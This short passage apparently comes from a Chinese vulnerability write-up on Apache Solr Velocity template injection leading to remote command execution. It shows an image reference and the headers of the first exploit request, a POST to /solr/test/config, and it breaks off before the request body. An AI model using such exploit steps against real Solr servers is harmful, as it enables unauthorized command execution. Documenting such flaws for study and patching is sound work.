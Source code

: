 ![](resource/ApacheSolrVelocity模版注入远程命令执行/media/rId25.png)

#### 1、post发送请求

    POST /solr/test/config HTTP/1.1
    Host: solr:8983
    Content-Type: application/json
    Content-Length: 259

